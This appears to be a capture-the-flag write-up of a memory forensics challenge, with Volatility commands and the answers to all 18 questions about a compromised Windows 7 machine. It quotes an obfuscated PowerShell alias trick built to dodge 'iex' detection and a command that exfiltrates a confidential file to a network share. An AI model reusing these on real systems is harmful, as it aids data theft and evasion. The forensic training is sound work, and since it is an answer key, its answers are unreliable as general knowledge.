


### Sherlock Scenario

A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. We believe it may have been compromised & have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. Please answer the questions below.

### Answers

The sherlock provided us with memory dump, which mean that we are going to use volatility to analyze it, you can download volatility2 from here: [Volatility2](http://downloads.volatilityfoundation.org/releases/2.6/volatility_2.6_lin64_standalone.zip)

#### Task 1

What is the Operating System of the machine?

```bash
sudo volatility -f recollection.bin imageinfo
```

After long waiting time, the command returned these results: `Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418`

Answer: Windows 7

#### Task 2

When was the memory dump created?

You will got the answer from the same command, and will find it in the `Image date and time` attribute.

Answer: 2022-12-19 16:07:30

#### Task 3

After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?

To get the clipboard content we will use clipboard plugin:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 clipboard
```

Answer: (gv '*MDR*').naMe[3,11,2]-joIN''

#### Task 4

The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?

We will use cmdline plugin:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 cmdline
```

The output wasn't helpful, so we will try cmdscan plugin:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 cmdscan
```

Not Helpful also, lets try consoles plugin:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 consoles
```

Here it is, by the attacker running the obfuscated command, it returned `iex` , `iex` is the built-in alias for `Invoke-Expression`. Attackers often build it this way to avoid putting the literal string "iex" or "Invoke-Expression" on the command line, because detection rules look for those strings. The random capitalization (`naMe`, `joIN`) adds more obfuscation, since PowerShell is case-insensitive.

Answer: Invoke-Expression

#### Task 5

A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

Back to the output we've got from cmdscan and consoles plugins, we will find a command that exfiltrate the content of file called Confidential.txt.

Answer: type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt

#### Task 6

Following the above command, now tell us if the file was exfiltrated successfully?

By looking for the output from consoles plugin, we can see that the exfiltration failed multiple times.

Answer: NO

#### Task 7

The attacker tried to create a readme file. What was the full path of the file?

By looking for consoles pluging output, you will find encoded text `ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi`
and by decrypting this base64 text you will get:

echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"

Answer: C:\Users\Public\Office\readme.txt

#### Task 8

What was the Host Name of the machine?

By looking for the environment variables using envars plugin, then filtering for the computername variable we will get the answer:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 envars | grep -i computername
```

Answer: USER-PC

#### Task 9

How many user accounts were in the machine?

We can use hashdump plugin, it will retrieve each account with its hash.

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 hashdump
```

Answer: 3

#### Task 10

In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?

We will use filescan plugin to get the files from the image:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 filescan
```

Answer: \Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt

#### Task 11

A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?

Back to the consoles plugin output, we will find execution attempt for a file called b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe

Answer: b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1

#### Task 12

Following the previous question, what is the Imphash of the malicous file you found above?

By searching using the previous hash in virustotal we will find the Imphash in the details section.



Answer: d3b592cd9481e4f053b5362e22d61595

#### Task 13

Following the previous question, tell us the date in UTC format when the malicious file was created?



Answer: 2022-06-22 11:49:04

#### Task 14

What was the local IP address of the machine?

We can get it using netscan plugin:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 netscan
```

Answer: 192.168.0.104

#### Task 15

There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?

We will use pstree plugin:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 pstree
```

Answer: cmd.exe

#### Task 16

Attacker might have used an email address to login a social media. Can you tell us the email address?

There is no direct plugin to extract the email address, but we will try to dump the process memory for the browser, and based on the previous task output, we know that msedge.exe was used:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 memdump -p 2380 -D output/
```

Then we will search in the extracted dump for email address format:

```bash
strings -a output/2380.dmp | grep -E -o "[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}" | sort | uniq -c | sort -rn
```

Answer: mafia_code1337@gmail.com

#### Task 17

Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?

From the same dump, we are looking for `search?q=` :

```bash
strings -a output/2380.dmp | grep -i -o -E "search\?q=[^&\" ]+" | sed 's/search?q=//; s/+/ /g; s/%20/ /g' | sort | uniq -c | sort -r
```

Answer: wazuh

#### Task 18

The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?

Back to the filescan plugin, we will filter for the Downloads folder to find the executable:

```bash
sudo volatility -f recollection.bin --profile=Win7SP1x64 filescan | grep -i "downloads" | grep -i "\.exe" 
```

Answer: csrsss.exe